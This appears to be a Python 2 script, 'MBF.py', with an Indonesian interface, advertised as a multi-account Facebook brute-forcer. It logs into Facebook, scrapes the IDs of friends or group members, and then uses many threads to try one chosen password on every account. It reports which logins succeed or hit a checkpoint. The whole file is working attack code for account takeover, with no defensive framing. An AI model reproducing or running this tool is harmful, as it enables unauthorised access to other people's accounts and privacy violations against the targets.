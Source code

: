 # MBF.py
import platform,os,sys
def cetak(x,e=0):
	w = 'mhkbpcP'
	for i in w:
		j = w.index(i)
		x= x.replace('!%s'%i,'\033[%s;1m'%str(31+j))
	x += '\033[0m'
	x = x.replace('!0','\033[0m')
	if e != 0:
		sys.stdout.write(x)
	else:
		sys.stdout.write(x+'\n')
if platform.python_version().split('.')[0] != '2':
	cetak('!m[!] Kamu menggunakan python versi %s silahkan menggunakan versi 2.x.x'%v().split(' ')[0])
	sys.exit()
import cookielib,re,urllib2,urllib,threading
try:
  import mechanize
except ImportError:
	cetak('!m[!] SepertiNya Module !cmechanize!m belum di install...\n!h[!] pip2 install mechanize')
	sys.exit()
br = 0
log = 0
id_bteman = []
id_bgroup = []
fid_bteman = []
fid_bgroup = []
class mt(threading.Thread):
	def __init__(self,i,p):
		threading.Thread.__init__(self)
		self.id = i
		self.a = 0
		self.p = p
	def update(self):
		return self.a,self.id
	def run(self):
		try:
			data = urllib2.urlopen(urllib2.Request(url='https://m.facebook.com/login.php',data=urllib.urlencode({'email':self.id,'pass':self.p}),headers={'User-Agent':'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16'}))
		except KeyboardInterrupt:
			sys.exit()
		except:
			self.a = 4
			sys.exit()
		if 'm_sess' in data.url or 'save-device' in data.url:
			self.a = 1
		elif 'checkpoint' in data.url:
			self.a = 2
		else:
			self.a = 3
def crack(d):
	while 1:
		s = inputD('[?] Sandi')
		if len(s) < 6:
			cetak('!m[!] Jumlah huruf minimal !k6')
		else:
			break
	return crack0(d,s)
def tampilhasil(akun,sandi,data):
	cekpoint = []
	salah = 0
	berhasil = []
	for i in akun:
		st,id = i
		if st == 1:
			berhasil.append(id)
		elif st == 2:
			cekpoint.append(id)
		elif st == 3:
			salah += 1
	cetak('!h[*] Berhasil !c%d'%len(berhasil))
	if len(berhasil) != 0:
		for i in berhasil:
			cetak('!h### !p%s !m=> !b[!k%s!b]'%(i,sandi))
	cetak('!k[*] Cekpoint !c%d'%len(cekpoint))
	if len(cekpoint) != 0:
		for i in cekpoint:
			cetak('!k### !p%s !m=> !b[!k%s!b]'%(i,sandi))
	cetak('!m[*] Gagal    !c'+str(salah))
	i = inputD('[?] Tidak Puas dengan Hasil,Mau coba lagi lae!! (y/t)',['Y','T'])
	if i.upper() == 'Y':
		return crack(data)
	else:
		return menu()
def crack0(data,sandi):
	akun = []
	cetak('!h[*] MengCrack !k%d Akun !hdengan sandi !m[!k%s!m]'%(len(data),sandi))
	cetak('!h[*] Cracking  !k0!m%',1)
	sys.stdout.flush()
	jml0,jml1 = 0,0
	th = []
	for i in data:
		i = i.replace(' ','')
		i = i.replace('\n','')
		if len(i) != 0:th.append(mt(i,sandi))
		jml1 += 1
	for i in th:
		i.daemon = True
		try:i.start()
		except KeyboardInterrupt:exit()
	h_error = []
	error = 0
	while 1:
		try:
			for i in th:
				status,id = i.update()
				if status != 0:
					cetak('\r!h[*] Cracking  !k%d!m%s!0'%(int(float((float(jml0)/float(jml1))*100)),'%'),1)
					sys.stdout.flush()
					del(th[th.index(i)])
					if status == 4:
						h_error.append(id)
						if h_error.count(id) == 3:
							pass
						else:
							th.append(mt(id,sandi))
							th[len(th)-1].daemon = True
							th[len(th)-1].start()
					else:
						jml0 += 1
						akun.append((status,id))
		except KeyboardInterrupt:
			sys.exit()
		try:
			if threading.activeCount() == 1:break
		except KeyboardInterrupt:
			keluar()
	cetak('\r!h[*] Cracking  !k100!m%      ')
	tampilhasil(akun,sandi,data)
def install_browser():
	global br
	br = mechanize.Browser()
	br.set_handle_robots(False)
	br.set_handle_equiv(True)
	br.set_handle_referer(True)
	br.set_cookiejar(cookielib.LWPCookieJar())
	br.set_handle_redirect(True)
	br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
	br.addheaders = [('User-Agent','Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]
def bacaData():
	global fid_bgroup,fid_bteman
	try:
		fid_bgroup = open(os.sys.path[0]+'/LEUSgroup.txt','r').readlines()
	except:pass
	try:
		fid_bteman = open(os.sys.path[0]+'/LEUSteman.txt','r').readlines()
	except:pass
def simpan():
	if len(id_bgroup) != 0:
		cetak('!h[*] Menyimpan hasil dari Group LAE!!')
		try:
			open(os.sys.path[0]+'/LEUSgroup.txt','w').write('\n'.join(id_bgroup))
			cetak('!h[!] Berhasil meyimpan !cLEUSgroup.txt')
		except:
			cetak('!m[!] Gagal meyimpan')
	if len(id_bteman) != 0:
		cetak('!h[*] Menyimpan hasil daftar Teman...')
		try:
			open(os.sys.path[0]+'/nicoteman.txt','w').write('\n'.join(id_bteman))
			cetak('!h[!] Berhasil meyimpan !cnicoteman.txt')
		except:
			cetak('!m[!] Gagal meyimpan Lae')
def keluar():
	simpan()
	cetak('!m[!] Keluar')
	sys.exit()
def inputD(x,v=0):
	while 1:
		try:
			a = raw_input('\x1b[32;1m%s\x1b[31;1m:\x1b[33;1m'%x)
		except:
			cetak('\n!m[!] Batal')
			keluar()
		if v:
			if a.upper() in v:
				break
			else:
				cetak('!m[!] Masukan Opsinya Lae...')
				continue
		else:
			if len(a) == 0:
				cetak('!m[!] Masukan dengan benar Lae')
				continue
			else:
				break
	return a
def inputM(x,d):
	while 1:
		try:
			i = int(inputD(x))
		except:
			cetak('!m[!] Pilihan tidak ada Bang')
			continue
		if i in d:
			break
		else:
			cetak('!m[!] Pilihan tidak ada Bang')
	return i
def lanjutG():
	global fid_bgroup
	if len(fid_bgroup) != 0:
		i = inputD('[?] Riset Hasil Id Group/lanjutkan (r/l)',['R','L'])
		if i.upper() == 'L':
			return crack(fid_bgroup)
		else:
			os.remove(os.sys.path[0]+'/ijengroup.txt')
			fid_bgroup = []
	return 0
def lanjutT():
	global fid_bteman
	if len(fid_bteman) != 0:
		i = inputD('[?] Riset Hasil Id Teman/lanjutkan (r/l)',['R','L'])
		if i.upper() == 'L':
			return crack(fid_bteman)
		else:
			os.remove(os.sys.path[0]+'/ijenteman.txt')
			fid_bteman = []
	return 0
def buka(d):
	try:
		x = br.open(d)
		br._factory.is_html = True
		x = x.read()
	except:
		cetak('\r!m[!] Gagal membuka Lae!p'+str(d))
		keluar()
	if '<link rel="redirect" href="' in x:
		return buka(br.find_link().url)
	else:
		return x
def login():
	global log
	us = inputD('[?] Email/HP')
	pa = inputD('[?] Kata Sandi')
	cetak('!h[*] Sedang Login....')
	buka('https://m.facebook.com')
	br.select_form(nr=0)
	br.form['email']=us
	br.form['pass']=pa
	br.submit()
	url = br.geturl()
	if 'save-device' in url or 'm_sess' in url:
		buka('https://mobile.facebook.com/home.php')
		nama = br.find_link(url_regex='logout.php').text
		nama = re.findall(r'\((.*a?)\)',nama)[0]
		cetak('!h[*] Selamat datang !k%s'%nama)
		cetak('!h[*] Semoga ini adalah hari keberuntungan mu...')
		log = 1
	elif 'checkpoint' in url:
		cetak('!m[!] Akun kena checkpoint\n!k[!]Coba Login dengan opera mini')
		keluar()
	else:
		cetak('!m[!] Login Gagal lae')
def idgroup():
	if log != 1:
		cetak('!h[*] Login !bFB!h dulu lae...')
		login()
		if log == 0:
			keluar()
	next = saring_id_group0()
	while 1:
		saring_id_group1(buka(next))
		try:
			next = br.find_link(url_regex='/browse/group/members/').url
		except:
			cetak('!m[!] Hanya Bisa Mengambil !h %d id'%len(id_bgroup))
			break
	simpan()
	i = inputD('[?] Langsung Crack (y/t)',['Y','T'])
	if i.upper() == 'Y':
		return crack(id_bgroup)
	else:
		return menu()
def saring_id_teman(r):
	for i in re.findall(r'/friends/hovercard/mbasic/\?uid=(.*?)&',r):
		id_bteman.append(i)
def idteman():
	if log != 1:
		cetak('!h[*] Login !bFB !hdulu lae...')
		login()
		if log == 0:
			keluar()
	cetak('!h[*] Sedang mengumpulkan id teman...')
	buka('https://m.facebook.com/friends/center/mbasic/?fb_ref=bm&sr=1&ref_component=mbasic_bookmark&ref_page=XMenuController')
	jumlah = br.find_link(url_regex='/friends/center/friends/').text
	jumlah = re.findall(r'\((.*a?)\)',jumlah)[0]
	cetak('!h[*] Mengambil !p%s !hid teman'%jumlah) 
	saring_id_teman(buka('https://m.facebook.com/friends/center/friends/?fb_ref=fbm&ref_component=mbasic_bookmark&ref_page=XMenuController'))
	try:
		next = br.find_link(url_regex='friends_center_main').url
	except:
		if len(id_teman) != 0:
			cetak('!m[!] Hanya dapat mengambil !p%d id'%len(id_bteman))
		else:
			cetak('!m[!] Batal')
			keluar()
	while 1:
		saring_id_teman(buka(next))
		cetak('\r!h[*] !p%s !hid terambil...'%len(id_bteman),1)
		sys.stdout.flush()
		try:
			next = br.find_link(url_regex='friends_center_main').url
		except:
			cetak('\n!m[!] Hanya dapat mengambil !p%d id'%len(id_bteman))
			break
	simpan()
	i = inputD('[?] Langsung Crack YA lae(y/t)',['Y','T'])
	if i.upper() == 'Y':
		return crack(id_bteman)
	else:
		return menu()
def menu():
	cetak("\n           !h.-.-..\n          /+/++//\n         /+/++//\n  !k*   !k* !h/+/++//\n   \ /  |/__//\n !h{!mX!h}v{!mX!h}!0!b|!cnico!b|==========.\n   !h(!m'!h)!0  !h/'|'\           !b\\\n       !h/  \  \          !b'\n       !h\_  \_ \_   !k___!mMBF !c2.0!k___\n\n !m* !bMULTI BRUTEFORCE FACEBOOK BY: NICOLEUS F SITORUS\n !m* !cNICOLEUS\n !m* !phttps://github.com/nicoleus\n !m* !phttps://facebook.com/groups/164201767529837\n !m* !phttps://nicoleus.waper.com\n!k.======================.\n|!h  AMBIL !mID!h DARI.....  !k|\n'======================'\n!k#!p1 !hDAFTAR TEMAN\n!k#!p2 !hANGGOTA GROUP\n!k#!p3 !mKELUAR LAE KU...")
	i = inputM('[?] PILIH LAE',[1,2,3])
	if i == 2:
		lanjutG()
		idgroup()
	elif i == 1:
		lanjutT()
		idteman()
	elif i == 3:
		keluar()
bacaData()
install_browser()
menu()
#
#
#
